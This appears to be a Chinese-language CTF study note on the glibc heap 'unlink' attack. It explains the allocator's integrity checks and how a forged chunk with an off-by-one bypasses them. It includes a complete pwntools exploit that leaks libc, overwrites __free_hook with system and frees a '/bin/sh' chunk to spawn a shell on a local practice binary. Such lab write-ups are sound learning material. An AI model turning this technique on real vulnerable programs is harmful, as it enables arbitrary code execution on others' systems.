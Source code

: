 # unlink

## 1.基本原理

假设正常情况下，每申请一个 chunk 会保存一个指向该 chunk 内存块的指针

![image-20241222165642071](./assets/1.unlink/image-20241222165642071.png)

通常情况下我们使这个 chunk 的大小为 smallchunk，这样就不会进入 fastbin 和进行 largebin 的第三项安全检查

* 安全检查 1：大小检查
  * 要将 chunk2 的 prev_size 修改成 fake chunk 的 size
  * 或者将 size 和 prev_size 修改为 0 。不过 glibc-2.29 起多了对 size 和 prev_size 的检查，改为 0 失效

```c
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
  malloc_printerr ("corrupted size vs. prev_size");               \
```

* 安全检查 2：双向链表完整性检查
  * fakeFD -> bk == P1 <=> *(&fakeFD + 0x18) == P1 <=> *fakeFD == &P1 - 0x18
  * fakeBK -> fd == P1 <=> *(&fakeBK + 0x10) == P1 <=> * fakeBK == &P1 - 0x10

```c
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
```

* 安全检查 3：largebin 中 next_size 双向链表完整性检查 
  * fake chunk 大小应在 small bin 范围

```c
if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)	      \
|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
  malloc_printerr ("corrupted double-linked list (not small)");
```

* 为了能使得 chunk2 与 fake chunk 合并，chunk2 的 size 的 PREV_INUSE 位 为 0 ，且 chunk2 的大小不能在 fast bin 范围



在 int_free 中：也就是说 p 是 free 的前一个 chunk，而前一个 chunk 是根据其 prevsize 计算的

```c
/* consolidate backward */
if (!prev_inuse(p)) {
  prevsize = prev_size (p);
  size += prevsize;
  p = chunk_at_offset(p, -((long) prevsize));
  unlink(av, p, bck, fwd);
}
```

而 unlink 的主要功能是：

```c
FD = P->fd;								      
BK = P->bk；
FD->bk = BK;							      
BK->fd = FD;
```



## 2.利用思路

![image-20241222194254976](./assets/1.unlink/image-20241222194254976.png)

* 伪造 fakechunk
  * fakechunk 要能覆盖到下一个 chunk 的 prev_size 和 size 的一字节（要有 off by one）（覆盖 size 最后一字节后，要确保 size 大小不会发生变化，因为我们只是想覆盖掉 PREV_INUSE ）
  * fd 和 bk 分别指向伪造地址
* free P2 后，P2 会和 P1 发生合并，同时 FD-> bk = BK; BK-> fd = FD; 由于 FD-> bk 和 BK-> fd 都指向的是 P1，所以 P1 最后会指向 FD（上图中也就是指针数组头，返回的是用户空间 mem）

漏洞程序参考 unsortedbin leak 的测试程序

exp：

```py
from pwn import *
# patchelf --set-interpreter new_ld_address file_path
# patchelf --replace-needed old_libc.so.6 new_libc.so.6 file_path
# pycharm # ctrl+/

# local pwn
elf_path = './test'
elf = ELF(elf_path)
libc = ELF('/home/ubuntu/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
context(arch=elf.arch, os=elf.os, log_level="debug")
p = process([elf_path])

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sa(b"choice:\n", b"1")
    sa(b"index:\n", str(index).encode())
    sa(b"size:\n", str(size).encode())

def delete_chunk(index):
    sa(b"choice:\n", b"2")
    sa(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sa(b"choice:\n", b"3")
    sa(b"index:\n", str(index).encode())
    sa(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sa(b"choice:\n", b"4")
    sa(b"index:\n", str(index).encode())

def exit_p():
    sa(b"choice:\n", b"5")

add_chunk(3, 0x100)
add_chunk(4, 0x1f8)
add_chunk(5, 0x100)

# leak libc
delete_chunk(3)
add_chunk(3, 0x100)
show_chunk(3)
main_arena_addr = u64Leakbase(0)
li("main_arena_addr", main_arena_addr)
libc_addr = main_arena_addr - 0x3c4b78
libc.address = libc_addr
li("libc_addr", libc_addr)

payload = b""
payload += p64(0)
payload += p64(0x101)
payload += p64(elf.sym["chunklist"])
payload += p64(elf.sym["chunklist"] + 8)
payload = payload.ljust(0x100 , b"0")
payload += p64(0x100)
payload += p8(0)

edit_chunk(3, payload)
delete_chunk(4)

edit_chunk(5, b"/bin/sh\x00")
edit_chunk(3, p64(libc.sym["__free_hook"]))
edit_chunk(0, p64(libc.sym["system"]))
delete_chunk(5)
it()
```

这里通过像数组链表首个元素写入 `__free_hook` 的地址，并且向 `__free_hook` 中写入 hook 替换的函数 `system`，释放 chunk5 后，mem 中的内容会作为参数传递给 hook 替换的函数

同时，还可以利用 got 写入完成利用

```c
void
__libc_free (void *mem)
{
  mstate ar_ptr;
  mchunkptr p;                          /* chunk corresponding to mem */

  void (*hook) (void *, const void *)
    = atomic_forced_read (__free_hook);
  if (__builtin_expect (hook != NULL, 0))
    {
      (*hook)(mem, RETURN_ADDRESS (0));
      return;
    }
```

【】
